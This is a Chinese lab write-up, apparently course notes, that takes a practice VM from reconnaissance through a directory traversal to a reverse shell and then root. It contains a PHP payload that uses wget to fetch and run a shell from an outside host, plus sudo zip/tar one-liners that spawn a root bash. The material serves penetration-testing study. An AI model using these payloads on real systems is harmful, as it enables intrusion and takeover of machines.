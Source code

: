 ```yaml
---
title: 【网络安全0x0a】目录遍历漏洞
date: 2020-06-14 21:53:08
tags: [网络安全, owasp_zap]
---
```


51CTO的网课，本篇利用nmap搜索开放端口，nikto、dirb挖掘敏感目录找到后台登录界面，使用owasp_zap扫描出目录遍历漏洞，上传执行php反弹shell，获得低权shell，最后利用zip/tar提权拿到root权限。

本篇使用工具owasp_zap。

<!-- more -->

# 使用命令

## zip提权

``` bash
sudo zip exploit.zip exploit -T --unzip-command="sh -c /bin/bash"
#-T 表示测试exploit.zip的完整性
# --unzip-command 与-T 一起使用，可以指定自定义命令用于解压exploit.zip
#可以自定义用于解压exploit.zip的命令，自定义解压命令是以root权限执行的，指定为sh -c /bin/bash, 获取一个root权限的shell
```

## tar提权

``` bash
sudo tar cf /dev/null exploit --checkpoint=1 --checkpoint-action=exec="/bin/bash"
#–checkpoint-action 选项是提权点，可以自定义需要执行的动作，指定为exec=/bin/bash，获取一个root权限的shell
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，一个web服务，`dirb`挖掘`80`端口web信息：

``` bash
nmap -sV 192.168.2.138
dirb http://192.168.2.138/
```

![](./1061/1.PNG)

2. 访问登录页面，尝试弱口令**admin**成功登录，里面有一个表有两个用户的MD5密码，在线解密了尝试登录ssh，但是失败了：

![](./1061/2.PNG)

3. 上`owasp_zap`扫到了目录遍历漏洞：

![](./1061/3.PNG)

4. 测试该目录，确实返回了相应信息：

![](./1061/4.PNG)

5. 把目录改成后台看到的表的目录，成功返回了表的内容：

![](./1061/5.PNG)

6. 新建一个表，插入一段下载反弹shell的TEXT：

``` php
<?php system("cd /tmp;wget http://192.168.2.205:8000/shell.php; chmod +x shell.php;php shell.php");?>
```

![](./1061/6.PNG)

7. 编辑反弹shell，修改地址和端口，python开启简单http服务：

``` python
python -m "SimpleHTTPServer"
```

![](./1061/7.PNG)

8. 开启nc监听，修改目录为反弹shell目录。获得低权shell：

![](./1061/8.PNG)

9. `/home/zico`目录下有`wordpress`文件夹，一般里面的配置文件有数据库密码：

![](./1061/9.PNG)

10. 可以尝试用配置文件里的数据库密码ssh远程登录：

![](./1061/10.PNG)

11. ssh登录成功，依旧低权，不过可以tar/zip提权：

![](./1061/11.PNG)

12. zip/tar提权，获得root权限：

``` bash
sudo zip exploit.zip exploit -T --unzip-command="sh -c /bin/bash"

sudo tar cf /dev/null exploit --checkpoint=1 --checkpoint-action=exec="/bin/bash"
```

![](./1061/12.PNG)

# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)